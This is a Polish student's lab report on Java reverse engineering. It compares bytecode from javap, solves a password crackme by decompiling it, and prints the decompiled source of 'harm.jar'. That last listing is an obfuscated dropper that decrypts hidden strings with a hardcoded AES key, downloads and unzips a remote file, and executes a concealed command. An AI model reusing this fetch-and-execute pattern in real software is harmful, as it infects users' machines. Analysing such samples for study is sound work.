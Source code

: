 # APRO2 Lab5 Sprawozdanie

###### Tomasz Mycielski (304248)

## Zadanie 1

Na potrzeby zadania stworzyłem dwie klasy:
- `ConcatenatorPlusEquals`:
<details>
<summary>Pokaż kod</summary>

```java
package com.company.z1;

public class ConcatenatorPlusEquals {

    public static void main(String[] args) {
        String concatenation;
        concatenation = "String1" + "String2";
        System.out.println(concatenation);
    }
}
```
</details>

- `ConcatenatorStringBuilder`:
<details>
<summary>Pokaż kod</summary>

```java
package com.company.z1;

public class ConcatenatorStringBuilder {
    public static void main(String[] args) {
        StringBuilder stringBuilder;
        stringBuilder = new StringBuilder();
        stringBuilder.append("String1");
        stringBuilder.append("String2");
        String string;
        string = stringBuilder.toString();
        System.out.println(string);
    }
}
```
</details>

Wywołanie komendy `javap` na plikach `.class`, do których zostały skompilowane powyższe programy, wygenerowało następujący output:

- dla `ConcatenatorPlusEquals`:
<details>
<summary>Pokaż output</summary>

```text
Compiled from "ConcatenatorPlusEquals.java"
public class com.company.z1.ConcatenatorPlusEquals {
  public com.company.z1.ConcatenatorPlusEquals();
  public static void main(java.lang.String[]);
}
```
</details>

- dla 'ConcatenatorStringBuilder':
<details>
<summary>Pokaż output</summary>

```text
Compiled from "ConcatenatorStringBuilder.java"
public class com.company.z1.ConcatenatorStringBuilder {
  public com.company.z1.ConcatenatorStringBuilder();
  public static void main(java.lang.String[]);
}
```
</details>

Z powyższego wywnioskować można niewiele. Wiemy, że obydwa programy mają podobną strukturę — jest w nich tylko metoda `main(String[])`.

Program `javap` daje nam jednak do dyspozycji jeszcze opcję Disassemble the code, oznaczoną `-c`. Po wywołaniu komendy `javap -c` na tych samych plikach możemy dowiedzieć się o wiele więcej o programie:
- `ConcatenatorPlusEquals`
<details>
<summary>Pokaż output</summary>

```text
Compiled from "ConcatenatorPlusEquals.java"
public class com.company.z1.ConcatenatorPlusEquals {
  public com.company.z1.ConcatenatorPlusEquals();
    Code:
       0: aload_0
       1: invokespecial #1                  // Method java/lang/Object."<init>":()V
       4: return

  public static void main(java.lang.String[]);
    Code:
       0: ldc           #7                  // String String1
       2: astore_1
       3: aload_1
       4: invokedynamic #9,  0              // InvokeDynamic #0:makeConcatWithConstants:(Ljava/lang/String;)Ljava/lang/String;
       9: astore_1
      10: getstatic     #13                 // Field java/lang/System.out:Ljava/io/PrintStream;
      13: aload_1
      14: invokevirtual #19                 // Method java/io/PrintStream.println:(Ljava/lang/String;)V
      17: return
}
```
</details>

- `ConcatenatorStringBuilder`
<details>
<summary>Pokaż output</summary>

```text
Compiled from "ConcatenatorStringBuilder.java"
public class com.company.z1.ConcatenatorStringBuilder {
  public com.company.z1.ConcatenatorStringBuilder();
    Code:
       0: aload_0
       1: invokespecial #1                  // Method java/lang/Object."<init>":()V
       4: return

  public static void main(java.lang.String[]);
    Code:
       0: new           #7                  // class java/lang/StringBuilder
       3: dup
       4: invokespecial #9                  // Method java/lang/StringBuilder."<init>":()V
       7: astore_1
       8: aload_1
       9: ldc           #10                 // String String1
      11: invokevirtual #12                 // Method java/lang/StringBuilder.append:(Ljava/lang/String;)Ljava/lang/StringBuilder;
      14: pop
      15: aload_1
      16: ldc           #16                 // String String2
      18: invokevirtual #12                 // Method java/lang/StringBuilder.append:(Ljava/lang/String;)Ljava/lang/StringBuilder;
      21: pop
      22: aload_1
      23: invokevirtual #18                 // Method java/lang/StringBuilder.toString:()Ljava/lang/String;
      26: astore_2
      27: getstatic     #22                 // Field java/lang/System.out:Ljava/io/PrintStream;
      30: aload_2
      31: invokevirtual #28                 // Method java/io/PrintStream.println:(Ljava/lang/String;)V
      34: return
}
```
</details>

Otrzymaliśmy kod bajtowy Javy. Korzystając z jego dokumentacji dostępnej na [stronie](https://docs.oracle.com/javase/specs/jvms/se7/html/jvms-6.html) Oracle, możemy sporo dowiedzieć się o programie. Jednak już na pierwszy rzut oka widać, w której wersji programu wykorzystany został `StringBuilder`, a w której `+` do konkatenacji dwóch stringów. 

Moją szczególną uwagę zwrócił fakt, że w przypadku programu korzystającego ze `StringBuilder` możemy odczytać obydwa ciągi znaków, które ze sobą konkatenujemy, a w programie korzystającym z `+=` tylko drugi z nich.

Pliki `.class`, które podawałem do `javap` dostępne są w [lab5/out/production/lab5/com/company/z1/](./out/production/lab5/com/company/z1/).

## Zadanie 2

Do wykonania tego zadania wykorzystałem narzędzie [`Procyon`](https://github.com/ststeiger/procyon) na stronie [javadecompilers.com](javadecompilers.com). Po wysłaniu danego pliku na stronę dowiedziałem się, że program składa się z klas - `Coder` i `Main`:

 - `Main.class`
<details>
<summary>Pokaż kod</summary>

```java
package com.company;

import java.util.Date;
import java.time.Instant;
import java.text.SimpleDateFormat;

public class Main
{
    public static void main(final String[] array) {
        if (array.length != 1) {
            System.out.println("Wrong password!");
            return;
        }
        final String[] split = array[0].split("_");
        final int int1 = Integer.parseInt(new SimpleDateFormat("MM").format(Date.from(Instant.now())));
        if (split[0].length() == 7 && split[1].length() == 2) {
            if (split[0].equals(Coder.code("00PYe8m")) && Integer.parseInt(split[1]) == int1) {
                System.out.println("Good guess");
            }
            else {
                System.out.println("Wrong password!");
            }
        }
        else {
            System.out.println("Wrong password!");
        }
    }
}
```
</details>

- `Coder.class`
<details>
<summary>Pokaż kod</summary>

```java
package com.company;

public class Coder
{
    static String code(final String s) {
        final StringBuilder sb = new StringBuilder();
        for (int i = 0; i < s.length(); ++i) {
            sb.append((char)(s.charAt(i) + '\u0001'));
        }
        return sb.toString();
    }
}
```
</details>

Mając do dyspozycji powyższy kod, postarałem się odwzorować [program](lab5/src/com/company/z2) w swoim IDE. Po analizie kodu ustaliłem, że hasło ma strukturę `[7 znaków] podkreślnik [2 znaki]`. Siedem pierwszych znaków to output metody `Coder.code("00PYe8m")`, a dwa ostatnie znaki to numer obecnego miesiąca.

Sprawdzam [hasło](lab5/password.txt):
```text
$ java -jar ./Tomasz_Jerzy_Mycielski_task_2.jar 11QZf9n_04
Good guess
```

## Zadanie 3

Zdekompilowałem plik `harm.jar` dekompilatorem [`CFR`](https://github.com/leibnitz27/cfr).
<details>
<summary>Zdekompilowany kod</summary>

```java
/*
 * Decompiled with CFR 0.150.
 */
package com.company.z3.com.crack.it;

import java.io.BufferedInputStream;
import java.io.ByteArrayOutputStream;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.net.URL;
import java.nio.charset.StandardCharsets;
import java.nio.file.Path;
import java.nio.file.Paths;
import java.security.Key;
import java.util.zip.ZipEntry;
import java.util.zip.ZipInputStream;
import javax.crypto.Cipher;
import javax.crypto.spec.IvParameterSpec;
import javax.crypto.spec.SecretKeySpec;

public class Run {
private static String key = "Kjf456UjOP14Ywte";

    private static byte[] a(String string) {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream(string.length() / 2);
        for (int i = 0; i < string.length(); i += 2) {
            byteArrayOutputStream.write(Integer.parseInt(string.substring(i, i + 2), 16));
        }
        return byteArrayOutputStream.toByteArray();
    }

    private static String b(String string) throws Exception {
        byte[] arrby = Run.a(string);
        Cipher cipher = Cipher.getInstance("AES/CBC/NoPadding");
        SecretKeySpec secretKeySpec = new SecretKeySpec(key.getBytes(StandardCharsets.UTF_8), "AES");
        IvParameterSpec ivParameterSpec = new IvParameterSpec(key.getBytes(StandardCharsets.UTF_8));
        cipher.init(2, (Key)secretKeySpec, ivParameterSpec);
        byte[] arrby2 = cipher.doFinal(arrby);
        return new String(arrby2);
    }

    private static void c(String string) throws Exception {
        URL uRL = new URL(string);
        Path path = Paths.get(System.getProperty(Run.b("cf342300e78f3c21383678d00b71b225369f62782816ebd5986ae029b97f34f53fb78d0a05ece71c779ebbc83692cfe8919282626c7be128cfb6b8f285848ff5").trim()), new String[0]);
        Path path2 = Paths.get(path.toString(), Run.b("b92741a781f245538d5c75ab25330b9107832a09ef2c1d461a67507930557538e1fa2c3d572d2a384e4f9d399ef8c33d09467b3ab0454b41bab9350ce3774fdf").trim());
        try (BufferedInputStream bufferedInputStream = new BufferedInputStream(uRL.openStream());){
            int n;
            FileOutputStream fileOutputStream = new FileOutputStream(path2.toString());
            byte[] arrby = new byte[1024];
            while ((n = bufferedInputStream.read(arrby, 0, 1024)) != -1) {
                fileOutputStream.write(arrby, 0, n);
            }
        }
        catch (IOException iOException) {
            // empty catch block
        }
        Run.d(path2, path);
    }

    private static void d(Path path, Path path2) {
        try {
            if (!path.toFile().exists()) {
                return;
            }
            byte[] arrby = new byte[1024];
            ZipInputStream zipInputStream = new ZipInputStream(new FileInputStream(path.toString()));
            ZipEntry zipEntry = zipInputStream.getNextEntry();
            while (zipEntry != null) {
                int n;
                String string = Paths.get(path2.toString(), zipEntry.getName()).toString();
                FileOutputStream fileOutputStream = new FileOutputStream(string);
                while ((n = zipInputStream.read(arrby)) > 0) {
                    fileOutputStream.write(arrby, 0, n);
                }
                fileOutputStream.close();
                zipEntry = zipInputStream.getNextEntry();
            }
            zipInputStream.closeEntry();
            zipInputStream.close();
        }
        catch (Exception exception) {
            // empty catch block
        }
    }

    public static void main(String[] arrstring) throws Exception {
        String string = System.getProperty(Run.b("6474658359276b25720ff106097a2663f7d139752e9f95100ac045385fd51ee58f6a4a2c6d7f2701fed0ab2fff3a66bf43f78e79af22740fe718824cff7cda98").trim());
        String string2 = Run.b("054f1f395c9506dea62a842dd0a91602ef625bd2909bb87a2fbcab5a499e06013166de8c18bf9d982184785f07f59739c463c3d56327be198fcae6648f7314f4").trim();
        Run.c(Run.b("52ab37cab57dab5d50c38b06a37f12da4a093eadfd96502c3eef188a2c44e63a0cb4a60c16e3f41f0c02df264f492cf311030bd9be4a3f37db38755eef4527b9"));
        if (string.contains(string2)) {
            Runtime.getRuntime().exec(Run.b("2d830932f271350897857710196ec96453f8d261bc7f07181da0c2a10fbe2db2267c3526d61c01c1c28a004367774f64b687c76dcf6873995954a8d93f3d2f3c").trim());
        } else {
            Runtime.getRuntime().exec(Run.b("5673123e986e4c8ad4efa677a6d00b31b2007673a282e5ebc6a2738c0f603f36b372a9f85b2f598f3f76c5d43eb82e4183a123eea4031fcbb040c872e681e31f").trim());
        }
    }
}
```

</details>

Kod ten jest również w katalogu [z3](lab5/src/com/company/z3/com/crack/it/).